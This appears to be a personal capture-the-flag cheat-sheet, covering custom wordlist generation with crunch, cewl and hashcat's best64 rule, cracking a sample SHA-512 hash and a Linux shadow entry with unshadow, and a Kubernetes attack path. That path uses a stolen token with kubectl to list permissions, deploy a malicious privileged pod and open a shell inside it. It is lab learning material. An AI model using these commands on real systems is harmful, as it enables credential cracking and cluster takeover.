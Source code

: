 # Genereate Custom wordlists

Example:
crunch 4 4 0123456789 -o wordlist.txt to generate 4 number wordlist

```
cewl http://hamlet.thm/hamlet.txt --lowercase | awk 'length($0)>=12 && length($0)<=14' | uniq > wordlist.txt
```

## Built wordlist using base64 rule.

We will use the wordlist built by applying hashcat’s best64 rules to the passwd list.

hashcat --force passwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > best64-passwd.txt

Example:

Hash : b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885

Hashid tells its sha-512. The following https://www.dcode.fr/sha512-hash decoder cracked successfully. but there is a hint "password uses best64". So bulit the wordlist using base64 rule with help of hashcat.

hashcat --force passwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > best64-passwd.txt

## Shadow decrypt

```bash
cat passwd            
root:x:0:0:root:/root:/bin/bash
                                                                                                                                                                      
cat shadow 
root:$y$j9T$.9s2wZRY3hcP/udKIFher1$sIBIYsiMmFlXhKOO4ZDJDXo54byuq7a4xAD0k9jw2m4
                                                                                                                                                                      
unshadow passwd shadow > unshadow

```                      

## Kubectl

References:

https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/

https://rioasmara.com/2021/09/18/kubernetes-yaml-for-reverse-shell-and-map-root/

https://github.com/BishopFox/badPods/tree/main/manifests/everything-allowed

```bash
 kubectl --token=` cat token` --certificate-authority=/home/arundhanush/CTF/THM/palsforlife/ca.crt --server=https://10.10.34.60:6443 auth can-i --list \\ to check list

 kubectl --token=` cat token` --certificate-authority=/home/arundhanush/CTF/THM/palsforlife/ca.crt --server=https://10.10.34.60:6443 get pods , nodes, namespaces -o yaml \\ to get yaml output of pods, namespaces, and nodes

 kubectl --token=` cat token` --certificate-authority=/home/arundhanush/CTF/THM/palsforlife/ca.crt --server=https://10.10.210.227:6443 apply -f everything-allowed-exec-pod.yaml \\ malicious pod upload
                                                                                                                                                    
 kubectl --token=` cat token` --certificate-authority=/home/arundhanush/CTF/THM/palsforlife/ca.crt --server=https://10.10.34.60:6443 exec -it nginx-7f459c6889-8slv2 /bin/bash \\ execute pod as bash

```
